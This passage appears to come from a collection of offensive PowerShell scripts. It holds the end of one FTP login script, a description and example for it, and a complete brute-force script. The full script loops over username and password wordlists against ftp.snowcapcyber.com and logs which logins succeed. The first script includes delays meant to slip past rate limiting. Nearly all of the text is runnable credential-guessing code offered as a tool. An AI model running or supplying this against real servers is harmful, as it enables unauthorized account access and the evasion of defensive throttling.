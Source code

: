 ```powershell
            $responseCode = [int]$ftpResponse.StatusCode
            if ($responseCode -ge 200 -and $responseCode -lt 300) {
                Write-Host "Login successful: $username:$password"
                # Perform additional actions
            } else {
                Write-Host "Login failed: $username:$password - Response code: $responseCode"
            }
        } catch [System.Net.WebException] {
            $errorMessage = $_.Exception.Message
            Write-Host "Login failed: $username:$password - $errorMessage"
        }
        Start-Sleep -Seconds $delaySeconds
    }
}
```

**Description:**

Handles FTP server responses and includes delays to avoid rate limiting, interpreting response codes for success or failure.

**Example:**

Test login attempts on ftp.snowcapcyber.com with a 2-second delay, logging response codes.

---

**Script/Command:**

```powershell
$usernames = Get-Content "usernames.txt"
$passwords = Get-Content "passwords.txt"
$ftpServer = "ftp.snowcapcyber.com"
$ftpPort = 21
$logFile = "bruteforce_log.txt"
foreach ($username in $usernames) {
    foreach ($password in $passwords) {
        $credentials = New-Object PSCredential -ArgumentList ($username, (ConvertTo-SecureString -AsPlainText $password -Force))
        $ftpRequest = [System.Net.FtpWebRequest]::Create("ftp://${ftpServer}:${ftpPort}")
        $ftpRequest.Credentials = $credentials
        $ftpRequest.Method = [System.Net.WebRequestMethods+Ftp]::ListDirectory
        try {
            $ftpResponse = $ftpRequest.GetResponse()
            $responseCode = [int]$ftpResponse.StatusCode
            if ($responseCode -ge 200 -and $responseCode -lt 300) {
                Write-Output "$((Get-Date).ToString('yyyy-MM-dd HH:mm:ss')) - Successful login: $username:$password" | Out-File -Append -FilePath $logFile
            } else {
                Write-Output "$((Get-Date).ToString('yyyy-MM-dd HH:mm:ss')) - Failed login: $username:$password - Response code: $responseCode" | Out-File -Append -FilePath $logFile
            }
        } catch [System.Net.WebException] {
            $errorMessage = $_.Exception.Message
            Write-Output "$((Get-Date).ToString('yyyy-MM-dd HH:mm:ss')) - Failed login: $username:$password - $errorMessage" | Out-File -Append -FilePath $logFile
        }
    }
}
```
